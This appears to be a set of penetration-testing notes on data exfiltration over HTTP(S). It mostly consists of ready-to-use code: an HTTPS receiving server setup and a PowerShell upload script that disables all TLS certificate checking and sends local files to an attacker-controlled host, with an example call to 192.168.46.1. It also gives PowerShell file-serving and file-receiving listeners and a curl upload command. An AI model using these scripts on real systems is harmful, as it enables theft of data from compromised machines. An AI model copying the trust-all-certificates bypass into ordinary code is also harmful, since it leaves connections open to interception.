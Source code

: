 # Exfiltration

## Exfiltration Over HTTP(S)
### The Server - Python

1. Download Python HTTPS Server with Authentication
	
	ADDLINK

2. Create certificate

Create a certificate so you can use SSL

```
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

3. Start the server

Usage:

```
python simple-https-server.py 4433 admin:password
```

### The Client - Powershell

1. Create upload.ps1

```
 add-type @"
 using System.Net;
 using System.Security.Cryptography.X509Certificates;
 public class TrustAllCertsPolicy : ICertificatePolicy {
 public bool CheckValidationResult(
 ServicePoint srvPoint, X509Certificate certificate,
 WebRequest request, int certificateProblem) {
 return true;
 }
 }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy

echo "========================================================================"
echo "USAGE: ./upload.ps1 https://domain.com/ username:password file_to_upload"
echo "-"
echo "NOTE: script and file to be uploaded must be in the same directory"
echo "========================================================================"

$url=$args[0]
$auth=$args[1]
$filename=$args[2]

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($auth))

$WebClient = new-object System.Net.WebClient
$WebClient.Headers.Add("Authorization", "Basic " + $encodedCreds)
$WebClient.Headers.Add("X-Atlassian-Token", "nocheck")
$WebClient.UploadFile($url, (Get-Location).Path + "\" + $filename)
```


2. Upload files to server


`./upload.ps1 <https://ip:port/> <admin:password> <file (in current dir)>`

`./upload.ps1 https://192.168.46.1:4433/ admin:password file_to_upload`


## HTTP Server


```
$port = 8080
$dir = (Get-Location).Path
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://*:$port/")
$listener.Start()

Write-Host "HTTP server started on port $port"
Write-Host "Serving files in directory $dir"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $request = $context.Request
    $response = $context.Response
    $filename = $request.Url.LocalPath.TrimStart('/')
    $filepath = Join-Path $dir $filename

    if (Test-Path $filepath -PathType Leaf) {
        $bytes = [System.IO.File]::ReadAllBytes($filepath)
        $response.OutputStream.Write($bytes, 0, $bytes.Length)
    } else {
        $response.StatusCode = 404
    }

    $response.Close()
}

$listener.Stop()
```

## HTTP Server with File Upload

```
$port = 8080
$dir = (Get-Location).Path
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://*:$port/")
$listener.Start()

Write-Host "HTTP server started on port $port"
Write-Host "Serving files in directory $dir"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $request = $context.Request
    $response = $context.Response
    $filename = $request.Url.LocalPath.TrimStart('/')

    if ($request.HttpMethod -eq "GET") {
        # Serve a file
        $filepath = Join-Path $dir $filename

        if (Test-Path $filepath -PathType Leaf) {
            $bytes = [System.IO.File]::ReadAllBytes($filepath)
            $response.OutputStream.Write($bytes, 0, $bytes.Length)
        } else {
            $response.StatusCode = 404
        }

        $response.Close()
    } elseif ($request.HttpMethod -eq "POST") {
        # Receive a file upload
        $inputStream = $request.InputStream
        $filename = [System.IO.Path]::GetFileName($request.RawUrl)
        $filepath = Join-Path $dir $filename

        try {
            $outputStream = [System.IO.File]::Create($filepath)
            $inputStream.CopyTo($outputStream)
            $response.StatusCode = 200
        } catch {
            $response.StatusCode = 500
        } finally {
            $outputStream.Close()
            $response.Close()
        }
    } else {
        $response.StatusCode = 405
        $response.Close()
    }
}

$listener.Stop()
```

**Command to upload**

`curl -X POST -F "file=@./example.txt" http://localhost:8080/`
